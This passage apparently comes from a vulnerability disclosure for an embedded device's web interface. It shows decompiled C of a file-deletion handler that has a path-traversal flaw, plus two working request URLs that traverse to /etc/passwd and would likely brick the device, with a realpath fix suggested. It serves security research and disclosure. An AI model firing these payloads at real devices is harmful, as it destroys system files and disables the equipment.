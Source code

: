```C
```

**Will most likely brick the system**

`/goform/net_WebRSAKEYDel?rsakeyname=../../../../../../../etc/passwd`

**Recommendation**
Ensure that only files within the intended directory can be unlinked, via a call to `realpath` 



***Arbitrary File Delete***

```c
void net_WebCSRDel(undefined8 param_1,undefined8 param_2,undefined8 param_3)

{
  char *__s;
  longlong lVar1;
  char *local_d0;
  char acStack_c0 [128];
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined *local_20;
  
  local_20 = &_gp;
  local_40 = param_1;
  local_38 = param_2;
  local_30 = param_3;
  __s = (char *)websGetVar(param_1,"csrtmp",&DAT_120067690);
  local_d0 = strtok(__s,(char *)&DAT_120068ea0);
  while( true ) {
    if (local_d0 == (char *)0x0) {
      FUN_120022d68(local_40,0,"All new settings are now active !!!");
      return;
    }
    lVar1 = Ssys_CheckString(local_d0);
    if (lVar1 < 0) break;
    snprintf(acStack_c0,0x80,"%s/%s","/mnt/log1/csr_file",local_d0); // path traversal, delete what you want
    unlink(acStack_c0);
    snprintf(acStack_c0,0x80,"%s/%s.info","/mnt/log1/csr_file",local_d0);
    unlink(acStack_c0);
    local_d0 = strtok((char *)0x0,(char *)&DAT_120068ea0);
  }
  FUN_1200233f4(local_40,0,0);
  return;
}
```


**Will most likely brick the system**

`/goform/net_WebCSRDel?csrtmp=../../../../../../../etc/passwd`
